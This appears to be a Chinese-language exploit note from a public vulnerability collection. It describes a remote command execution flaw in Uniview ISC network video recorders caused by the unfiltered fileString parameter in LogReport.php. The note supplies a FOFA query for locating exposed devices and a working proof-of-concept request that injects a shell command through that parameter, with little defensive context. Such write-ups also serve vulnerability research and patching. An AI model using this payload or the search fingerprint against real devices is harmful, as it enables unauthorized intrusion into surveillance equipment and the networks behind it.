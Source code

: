 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
浙江宇视科技 网络视频录像机 ISC
```

## FOFA

```
app="uniview-ISC"
```

## 漏洞复现

登录页面

![image-20220519183432893](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191834953.png)

验证POC

```
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![image-20220519183528302](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205191835400.png)